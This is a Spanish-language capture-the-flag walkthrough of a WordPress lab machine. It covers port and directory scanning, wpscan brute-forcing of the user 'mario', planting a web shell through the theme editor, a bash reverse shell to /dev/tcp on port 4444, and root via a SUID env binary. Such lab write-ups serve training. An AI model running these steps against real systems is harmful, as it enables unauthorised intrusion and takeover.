








# Máquina walkingcms

---

Dificultad -> Fácil

---

Empezamos haciendo un nmap para ver puertos y servicios disponibles

```shell
nmap -p- --open -sV -sC -sS --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
```

Vemos que solo está el puerto 80 abierto así que accedo desde la web



La web es una pagina por defecto de apache sin nada interesante en el codigo fuente asi que procedo ha hacer fuzzing con gobuster

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,txt,php,html -t 64
```

```shell
/index.html           (Status: 200) [Size: 10701]
/wordpress            (Status: 301) [Size: 312] [--> http://172.17.0.2/wordpress/]
/server-status        (Status: 403) [Size: 275]
```

Veo que encuentra un wordpress asi que uso wpscan para ver posibles usuarios, temas y plugins

```shell
wpscan -e p,vt,cb,u --url 172.17.0.2/wordpress
```

No encuentra ningun tema o plugin vulnerable pero si que encuentra el usuario mario



Teniendo un usuario, pruebo ha hacerle un bruteforce con wpscan

```shell
wpscan -U mario -P /usr/share/wordlists/rockyou.txt --url 172.17.0.2/wordpress
```

Y acabamos consiguiendo sus credenciales mario:love



Con estas credenciales puedo iniciar sesión en /wordpress/wp-admin.php



Una vez dentro del panel de administración de wordpress, podemos injectar una ejecution remota de comandos (RCE) a partir de un plugin con una revshell o editar un tema, en este caso, voy a editar el tema Twenty Twenty-Two.

Para ello, me dirijo a Apariencia > Theme Code Editor en el panel de la izquierda 



Y en el panel de la derecha selecciono index.php, aquí le introduzco la P0wny Shell de [RevShells](https://www.revshells.com/) y le doy a Update File.

Ahora si me dirijo a la ruta donde podemos encontrar los temas por defecto, dentro del tema Twenty Twenty-Two nos sale la siguiente consola.

```shell
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php
```



Desde aquí nos mandamos una revshell a nuestra maquina mientras escuchamos en el puerto 4444

```shell
bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'
```

```shell
nc -lvnp 4444
```

Con lo que ganamos acceso a la máquina


"Sudo -l" no funciona asi que purebo a buscar binarios con permisos SUID

```shell
find / -perm -4000 2>/dev/null
```



Veo que esta /usr/bin/env asi que me dirijo a [GTFOBins]() y veo que puedo conseguir directamente una consola como root.



Lo ejecuto y finalmente acabamos siendo root en esta máquina.
